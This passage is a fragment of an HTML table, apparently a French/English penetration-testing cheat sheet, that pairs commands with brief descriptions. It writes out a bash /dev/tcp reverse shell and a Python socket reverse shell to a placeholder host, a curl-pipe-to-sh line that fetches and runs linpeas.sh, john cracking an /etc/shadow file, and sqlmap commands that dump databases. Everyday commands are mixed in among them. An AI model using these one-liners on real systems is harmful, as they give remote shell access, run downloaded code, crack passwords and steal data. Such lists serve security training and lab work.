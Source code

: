   </tr>
  <tr>
   <td><strong>python -m SimpleHTTPServer</strong>
   </td>
   <td><strong>Ouvre un serveur web rapidement</strong>
   </td>
  </tr>
  <tr>
   <td><strong>find / -writeable -type d 2>/dev/null</strong>
   </td>
   <td><strong>Afficher tous les fichiers autorisés en écriture.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>bash -i >& /dev/tcp/[HOST]/[PORT] 0>&1</strong>
   </td>
   <td><strong>Reverse shell in bash</strong>
   </td>
  </tr>
  <tr>
   <td><strong>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("&lt;IP>",&lt;PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/</strong>
<p>
<strong>bin/sh","-i"]);'</strong>
   </td>
   <td><strong>reverse shell en python ( exécution bash )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>python -c "import pty;pty.spawn('/bin/bash')"</strong>
   </td>
   <td><strong>Avoir une bonne interface sur le shell</strong>
   </td>
  </tr>
  <tr>
   <td><strong>mv [FILE1] [FILE2]</strong>
   </td>
   <td><strong>rename a file</strong>
   </td>
  </tr>
  <tr>
   <td><strong>curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh</strong>
   </td>
   <td><strong>Install and Run linpeas.sh</strong>
   </td>
  </tr>
  <tr>
   <td><strong>john --wordlist=/usr/share/wordlists/rockyou.txt shadowfile</strong>
   </td>
   <td><strong>Brute les hash du fichier /etc/shadow</strong>
   </td>
  </tr>
  <tr>
   <td><strong>sqlmap -r [FILE] --dbs --batch</strong>
<p>
<strong>sqlmap -r [FILE] -D [DATABASE_NAME] -T [TABLES_NAMES] --dump --batch</strong>
   </td>
   <td><strong>sqlmap avec un fichier ou se retrouve la forme de la requête avec les paramètre</strong>
<p>
<strong>qu’on essaye d’exploiter.</strong>
<p>